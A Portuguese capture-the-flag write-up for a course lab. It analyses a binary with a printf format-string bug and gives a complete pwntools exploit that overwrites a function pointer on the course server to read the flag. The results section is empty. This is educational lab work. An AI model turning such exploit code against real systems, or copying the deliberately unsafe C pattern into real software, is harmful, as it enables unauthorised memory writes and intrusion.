

# CTF - Semana 6

**Objetivo**  
Explorar vulnerabilidades de format string para ler e escrever em memória arbitrária.

## Execução de Tarefas

### Executar o `checksec`

O comando `checksec` é utilizado para verificar as proteções de segurança habilitadas num programa. Vamos executar o comando para verificar as proteções de segurança habilitadas no programa.

- Comando:

```bash
[11/15/24]seed@VM:~/.../ctf6$ checksec --file=program
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH Symbols  FORTIFY Fortified Fortifiable  FILE
No RELRO        Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   2700 Symbols     No 0  0 program
```

### Funcionalidades de Segurança do checksec

| Funcionalidade | Estado | Descrição |
|----------------|--------|-----------|
| RELRO          | No RELRO | As entradas GOT são graváveis, tornando-as vulneráveis a sobrescrita. |
| Stack Canary   | Canary found | Proteção parcial contra estouros de buffer na pilha. |
| NX             | NX disabled | A pilha é executável, permitindo a execução de shellcode injetado. |
| PIE            | No PIE | O layout de memória do binário é fixo, tornando os endereços previsíveis. |
| RPATH/RUNPATH  | No RPATH/RUNPATH | Neutro neste caso. O binário não usa esses caminhos para carregamento de bibliotecas. |
| Symbols        | 2700 Symbols | O binário inclui símbolos, o que pode ajudar na criação de um exploit. |
| FORTIFY        | No | As funções não são fortificadas, deixando chamadas de biblioteca padrão desprotegidas. |

**Observações:**

- O binário é altamente vulnerável a explorações devido à falta de proteções RELRO, NX e PIE.
- Embora a presença de canários na pilha ofereça alguma proteção, a falta geral de mitigações fornece múltiplos vetores de ataque.

### Análise do Código Fonte

O código fonte fornecido contém uma vulnerabilidade de format string.

#### Código Fonte main.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int readtxt(char* name){
  char command[15];
  char arg[7];
  memcpy(arg,name,6);
  arg[6] = '\0';
  sprintf(command,"cat %s.txt\0",arg);
  printf("Running command %s\n",command);
  system(command);
  return 0;
}

int echo(char *str){
  printf("Echo %s\n",str);
  return 0;
}

int main() {
    void(*fun)(char*);
    char buffer[100];

    printf("Read the rules.\n");
    fun=&readtxt;
    (*fun)("rules");
    fun=&echo;
    printf("I will give you an hint: %x\n",&fun);
    printf("Try to unlock the flag:\n");
    fflush(stdout);
    scanf("%99s", &buffer);
    buffer[99]='\0';
    printf(buffer);  // Vulnerabilidade de format string
    printf("Calling function at %x %d\n",*fun,*fun);
    (*fun)(buffer);
    fflush(stdout);
    
    return 0;
}
```

A vulnerabilidade neste código é a função `printf(buffer);` que permite a um atacante explorar a vulnerabilidade de format string.

### Exploração da Vulnerabilidade

Para explorar a vulnerabilidade de format string, vamos usar o seguinte payload:

```bash
#!/usr/bin/python3
from pwn import *
import re

# Configuração do contexto e processo
context(arch='i386', log_level='debug')

# Função para enviar o payload e receber resposta
def exec_fmt(payload):
    r = remote('ctf-fsi.fe.up.pt', 4005)
    r.sendline(payload)
    response = r.recvall()
    r.close()
    return response

# Conectar ao servidor remoto para receber o endereço
r = remote('ctf-fsi.fe.up.pt', 4005)
output = r.recvuntil(b"flag:\n")
print("Output recebido:", output)

x = re.search(r"hint: ([a-f0-9]{8})", output.decode("utf-8"))
if x:
    target_adress = int(x.group(1), 16)
    print(f"Endereço obtido: {target_adress}:{hex(target_adress)}")

    # Definir o endereço da função alvo readtxt
    addr_readtxt = 0x080497a5

    flag = b'./flag**'
    # Obter o offset automaticamente usando FmtStr
    autofmt = FmtStr(exec_fmt)
    offset = autofmt.offset  # Este será o offset identificado

    # Construir o payload com fmtstr_payload usando o offset correto
    payload = flag + fmtstr_payload(offset + int(len(flag) / 4), {target_adress: addr_readtxt}, numbwritten=len(flag))

    # Enviar o payload para o programa principal e capturar a saída
    r.sendline(payload)
    buf = r.recvall().decode(errors="backslashreplace")
    print(buf)
else:
    print("Erro a obter endereço")
r.close()
```

### Resultado da Exploração

Após executar o script de exploração, obtemos a flag:


